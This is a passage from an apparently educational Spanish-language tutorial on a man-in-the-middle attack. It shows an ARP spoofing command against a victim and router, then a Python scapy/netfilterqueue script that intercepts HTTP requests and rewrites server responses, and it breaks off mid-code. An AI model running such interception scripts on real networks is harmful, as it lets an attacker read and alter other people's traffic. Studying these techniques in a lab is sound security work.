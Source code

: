 1. **`set_load`**: Esta función permite modificar el contenido de la carga útil (`payload`) de un paquete, actualizando los valores de longitud y checksum para evitar problemas al reenviar los paquetes modificados.
   
2. **`process_packet`**: Aquí es donde procesamos los paquetes interceptados. Si el paquete es una solicitud HTTP (puerto 80), eliminamos el campo `Accept-Encoding` para que el contenido no esté comprimido. Si es una respuesta del servidor (puerto 80), modificamos el contenido de la página y reenviamos el paquete modificado.

### 3. Ejecutar el ataque de spoofing

Antes de ejecutar nuestro script de spoofing HTTP, necesitamos realizar un ataque de spoofing ARP para interceptar el tráfico entre la víctima y el enrutador:

```bash
python3 arp_spoof.py -t 192.168.1.5 -r 192.168.1.1
```
Donde:
- `-t` es la dirección IP de la víctima.
- `-r` es la dirección IP del enrutador.

### 4. Ejecutar el script de spoofing HTTP

Con el ataque ARP en curso, ejecutamos nuestro script para interceptar y modificar las respuestas HTTP:

```bash
python3 http_spoofing.py
```

---

### Modificar el subtítulo de la página web

Ahora, vamos a cambiar el subtítulo `Welcome to our page` a `You've been hacked!`. Utilizaremos el mismo código con ligeras modificaciones.

#### Código para modificar el subtítulo:

```python
#!/usr/bin/python3

import netfilterqueue
import scapy.all as scapy
import re

# Función para modificar la carga útil
def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.IP].chksum
    del packet[scapy.TCP].chksum
    return packet

# Función para procesar los paquetes
def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        try:
            if scapy_packet[scapy.TCP].dport == 80:
                print(f"\n[+] Solicitud HTTP interceptada\n")
                modified_load = re.sub(b"Accept-Encoding:.*\\r\\n", b"", scapy_packet[scapy.Raw].load)
                new_packet = set_load(scapy_packet, modified_load)
                packet.set_payload(new_packet.build())
            elif scapy_packet[scapy.TCP].sport == 80:
                print(f"\n[+] Respuesta del servidor interceptada\n")
```